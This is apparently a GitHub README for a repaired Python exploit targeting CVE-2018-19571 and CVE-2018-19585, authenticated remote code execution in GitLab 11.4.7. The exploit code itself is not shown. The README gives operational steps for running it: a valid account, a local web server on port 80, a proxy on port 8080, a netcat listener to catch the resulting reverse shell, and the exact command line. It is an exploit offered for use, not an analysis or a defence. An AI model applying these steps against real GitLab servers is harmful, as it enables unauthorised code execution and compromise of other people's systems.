 # edb-49263-fixed - GitLab 11.4.7 - Authenticated Remote Code Execution
Fixed version of the Python script to exploit CVE-2018-19571 and CVE-2018-19585 (GitLab 11.4.7 - Authenticated Remote Code Execution) that is available at https://www.exploit-db.com/exploits/49263 (Python 3.9).

## Usage
Edit the script and replace the target address there with the actual target address.

Also keep in mind that you have to

1. have a valid user account on the target Gitlab instance,
2. run a (python) web server on port 80 in the directory that the script is run from,
3. have an active proxy server on your machine on port 8080 (e. g. BURP with intercept turned off; script execution will fail without error if there is no proxy server running on the local host or if it is refusing connections), and
4. have a netcat listener set up on the desired port on your machine.

The script is then executed as follows:

`python3 49263.py -U username -P password -l local-ip -p local-port-for-netcat-listener`
